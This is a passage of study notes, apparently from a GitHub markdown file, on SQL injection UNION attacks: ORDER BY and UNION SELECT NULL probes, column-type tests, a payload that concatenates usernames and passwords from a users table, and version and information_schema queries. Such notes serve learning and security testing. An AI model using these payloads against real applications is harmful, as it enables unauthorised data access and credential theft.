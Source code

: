 ```sql
' ORDER BY 2--
' ORDER BY 3--
```
- Using the `UNION SELECT NULL` method
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```
## Database-specific syntax
- Different databases use different syntax. Use a cheatsheet to help navigate the syntax differences
- The Portswigger page shows some examples
## Finding columns with a useful data type
- Using the `UNION SELECT NULL` method
- Replace the `NULl` with the desired data type to see if that column is compatible
- If an error occurs then the column is not compatible
- If the application's response contains the injected content, the the data type is compatible
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
```
## Retrieving multiple values within a single column
- Sometimes only one column is compatible with the data type we need.
- Concate the values together
- Use a cheatsheet as a guide for the syntax
```sql
' UNION SELECT username || '~' || password FROM users--
```
# Examining the database
- Find out the type and version of the database software
- Find out the tables and columns that the database contains
## Finding the type and version
- Use the cheatsheet
- Below is a short reference
```
---------------------------------------------
DATABASE TYPE       | QUERY                 |
---------------------------------------------
Microsoft, MySQL    | SELECT @@version
Oracle              | SELECT * FROM v$version
PostgreSQL          | SELECT version()
```
- Using an UNION attack
```sql
' UNION SELECT @@version--
```
## Listing contents
- Use the cheatsheet
- Use `information_schema.tables`
```sql
SELECT * FROM information_schema.tables
```
Output
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
```